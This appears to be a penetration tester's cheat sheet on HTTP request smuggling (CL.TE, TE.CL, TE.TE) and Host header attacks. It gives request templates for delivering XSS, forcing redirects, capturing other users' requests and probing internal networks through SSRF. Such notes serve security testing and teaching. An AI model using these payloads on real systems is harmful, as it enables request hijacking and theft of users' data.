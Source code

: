 # HTTP

## HTTP Smuggling

A smuggling vulnerability happens beacuse there are multiple ambiguous ways to define the length of an HTTP request the `Content-Length` header and the `Transfer-Encoding` header that is used to define the total length of a message split in chunked requests. Clients and servers may parse these headers differently and allow to include unexpected code in a HTTP request

Example of a chunked request

```
POST ... HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b    #start delimiter
<body>
0    #end delimiter
```

#### CL.TE Exploit

Front end uses `Content-Length` and back end uses `Transfer-Encoding`

```
POST / HTTP/1.1
Host: <website>
Content-Length: 13    #count from line 5 included to the delimiter
Transfer-Encoding: chunked

0

STRING HERE
```

If during the test you receive an "Header duplicated" error use the following request to override the header

```
POST / HTTP/1.1
Host: <website>
Content-Length: 139
Transfer-Encoding: chunked

0

GET / HTTP/1.1
Host: <website>
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=    #all headers set in the legitimate request end up as parameters in the body
```

#### TE.CL Exploit

Front end uses `Transfer-Encoding` and back end uses `Content-Length`

```
POST / HTTP/1.1
Host: <website>
Content-Length: 3    #length from line 5 to 6 included
Transfer-Encoding: chunked

b                    #length in HEX of the lines between the first and second terminators
STRING HERE
0
[\r\n\r\n]
```

#### TE.TE Exploit

Both the client and the server use `Transfer-Encoding` but one of them can be tricked to not parse the header by obfuscating it

```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[\t]chunked
 Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Complete request

```
POST / HTTP/1.1
Host: <website>
Content-Length: 3    #length from line 5 to 7 excluded
Transfer-Encoding: chunked
<obfuscated transfer encoding header>

b                    #length in HEX of the lines between the first and second terminators
STRING HERE
0
[\r\n\r\n]
```

### Reflected XSS

Allows to easily target an HTTP header and body. When a user sends his request it will be appended to the malicious smuggled request and will trigger the XSS vulnerability without requiring interaction

```
POST / HTTP/1.1
Host: <target>
Content-Length: <len>
Transfer-Encoding: chunked

0

GET / HTTP/1.1
<header>: <XSS>
Foo: X
```

### Open redirect

Allows to redirect the user to an arbitrary site by overwriting the `Host` header

```
POST / HTTP/1.1
Host: <target>
Content-Length: <len>
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: <redirect to>
Foo: X
```

### Reflect a user's request as value of an argument

Allows to steal a HTTP request from a user and print it as the value of a parameter in a GET or POST request

```
GET / HTTP/1.1
Host: <target>
Transfer-Encoding: chunked
Content-Length: <len>

0

POST <req> HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: <len>
<param>=
```

For instance if the target request is like `/save?username=usr&msg=text` it is possible to steal the next user's request with the following payload and navigating to a point in the site where the msg parameter is displayed

```
GET / HTTP/1.1
Host: <target>
Transfer-Encoding: chunked
Content-Length: <len>

0

POST <req> HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: <len>
/save?username=usr&msg=
```

## Host Header Attacks

The host header is used to inform balancers and front end server to where to redirect the user. By tampering this header it is possible to perform SSRF attacks. To find vulnerabilities in how the Host header is parsed by using the following steps

* Send an arbitrary host
* Check for host validation where only the url is validated and not the port `hostsite.com:evil`
* Try to send a request with an url as part of an accepted subdomain `evil-hostsite.com` or `evilhostsite.com`
* Duplicate the Host header
* Add indentation before or after the header such as tabs spaces and \n
* Sending the request to a full url instead of a relative one may lead the server to parse the header differently

### Header overwrite

It is possible to overwrite the value of Host by adding one on the following headers to the request

```
X-Forwarded-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```

### SSRF

Controlling the Host header allows to scout the internal network of the target machine in order to find other servers. To verifiy the vulnerability replace the Host value with the url of a server you control. If you receive a hit from the target machine or another one in the same network then the servers are vulnerable and you can use bruteforce or dictionary attacks to locate new machines. If the response is a redirect (3XX) then the machine with the given hostname or ip address exists
